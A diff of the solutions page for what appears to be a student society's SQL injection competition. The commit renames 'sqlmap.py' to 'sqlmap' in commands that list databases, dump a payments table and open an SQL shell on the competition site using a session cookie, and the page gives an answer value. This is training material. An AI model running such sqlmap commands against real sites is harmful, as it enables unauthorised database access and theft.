

Before and after one commit to CyberSoc-Newcastle/sql-injection-competition, a Markdown page: competition/solutions.md, 2 parts joined by grey strips. Rendered like a GitHub page.

````diff
--- a/competition/solutions.md
+++ b/competition/solutions.md
@@ -145,7 +145,7 @@ The 'Rent a Boat' was the database that used a different database. You could sel
 
 As you had to log in to get to the member's area, you will need to use a cookie. The cookie will contain your session that authorises you to access this page. You can find your cookie value using the developer tools in your web browser, make sure to copy the whole value to provide to SQLMap.
 
-To find the name of this database you could use the command `sqlmap.py -u "https://sql.cybersoc.org.uk/members/rent?category=Jet+Ski" --cookie "<COOKIE_VALUE>" -dbs`. This would give the output:
+To find the name of this database you could use the command `sqlmap -u "https://sql.cybersoc.org.uk/members/rent?category=Jet+Ski" --cookie "<COOKIE_VALUE>" -dbs`. This would give the output:
 ```
 available databases [3]:
 [*] geordie_boat_rentals_ltd
@@ -171,9 +171,9 @@ __Answer:__ 569221
 
 __Solution:__
 
-Using the 'Rent a Boat' page from [question 5](#question-5), you could use the command `sqlmap.py -u "https://sql.cybersoc.org.uk/members/rent?category=Jet+Ski" --cookie "<COOKIE_VALUE>" -D geordie_boat_rentals_ltd -T payments --dump` to see what the table contained.
+Using the 'Rent a Boat' page from [question 5](#question-5), you could use the command `sqlmap -u "https://sql.cybersoc.org.uk/members/rent?category=Jet+Ski" --cookie "<COOKIE_VALUE>" -D geordie_boat_rentals_ltd -T payments --dump` to see what the table contained.
 
-This would have returned 126 rows from the table. Just using the dump command is not enough to find the sum of all the money in the `payments` table. To easily calculate the sum, you could run the command `sqlmap.py -u "https://sql.cybersoc.org.uk/members/rent?category=Jet+Ski" --cookie "<COOKIE_VALUE>" --sql-shell`. This would open a SQL shell, which you could run SQL commands.
+This would have returned 126 rows from the table. Just using the dump command is not enough to find the sum of all the money in the `payments` table. To easily calculate the sum, you could run the command `sqlmap -u "https://sql.cybersoc.org.uk/members/rent?category=Jet+Ski" --cookie "<COOKIE_VALUE>" --sql-shell`. This would open a SQL shell, which you could run SQL commands.
 
 In the SQL shell, you could run the SQL command `SELECT SUM(money) FROM payments;`. This would return the sum of the money, __569221__, contained in the money column of the `payments` table.
 
````
